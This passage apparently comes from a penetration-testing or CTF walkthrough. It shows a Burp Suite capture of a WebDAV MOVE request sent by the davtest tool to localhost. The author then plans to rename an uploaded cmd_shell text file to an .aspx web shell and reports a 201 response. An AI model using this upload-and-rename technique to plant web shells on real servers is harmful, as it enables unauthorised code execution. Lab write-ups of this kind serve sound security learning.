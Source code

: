 And I see in burpsuite that this looks like:

```
MOVE /DavTestDir_P6CVJwQ/davtest_P6CVJwQ_shtml.txt HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 0
Depth: infinity
Destination: http://localhost/DavTestDir_P6CVJwQ/davtest_P6CVJwQ.shtml
Overwrite: T
```

So let's try to input our cmd_shell.txt and aspx there instead:

![](images/7.png)

Another 201, great news.
